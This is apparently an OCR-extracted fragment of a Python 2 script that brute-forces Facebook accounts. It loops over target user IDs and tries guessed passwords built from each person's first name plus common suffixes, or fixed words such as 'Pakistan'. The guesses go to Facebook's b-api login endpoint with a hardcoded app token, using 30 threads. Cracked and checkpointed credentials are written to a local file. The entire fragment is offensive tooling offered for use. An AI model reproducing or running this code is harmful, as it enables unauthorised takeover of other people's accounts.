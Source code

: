 else:								if 'www.facebook.com' in q["error_msg"]:									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3									cek = open("out/checkpoint.txt", "a")									cek.write(user+"|"+pass3+"\n")									cek.close()									cekpoint.append(user+pass3)								else:									pass4 = 'Pakistan'									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")									q = json.load(data)									if 'access_token' in q:										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4										oks.append(user+pass4)									else:										if 'www.facebook.com' in q["error_msg"]:											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4											cek = open("out/checkpoint.txt", "a")											cek.write(user+"|"+pass4+"\n")											cek.close()											cekpoint.append(user+pass4)										else:											pass5 = b['first_name'] + '786'											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")											q = json.load(data)											if 'access_token' in q:												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5												oks.append(user+pass5)											else:												if 'www.facebook.com' in q["error_msg"]:													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5													cek = open("out/checkpoint.txt", "a")													cek.write(user+"|"+pass5+"\n")													cek.close()													cekpoint.append(user+pass5)												else:													pass6 = b['first_name'] + '1234'													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")													q = json.load(data)													if 'access_token' in q:														print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6														oks.append(user+pass6)													else:														if 'www.facebook.com' in q["error_msg"]:															print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6															cek = open("out/checkpoint.txt", "a")															cek.write(user+"|"+pass6+"\n")															cek.close()															cekpoint.append(user+pass6)														else:															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)															b = json.loads(a.text)															pass7 = b['first_name'] + '1122'															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")															q = json.load(data)															if 'access_token' in q:																print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7																oks.append(user+pass7)															else:																if 'www.facebook.com' in q["error_msg"]:																	print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7																	cek = open("out/checkpoint.txt", "a")																	cek.write(user+"|"+pass7+"\n")																	cek.close()																	cekpoint.append(user+pass7)													 																	except:			pass			p = ThreadPool(30)	p.map(main, id)	print 42*"\033[1;96m="	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))	print("\033[1;96m[+] \033[1;92m THANKS FOR USING MY COMMAND ! WE WILL RIGHT BACK \033[1;91m: \033[1;97mout/checkpoint.txt")	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")	menu()if __name__ == '__main__':	login()
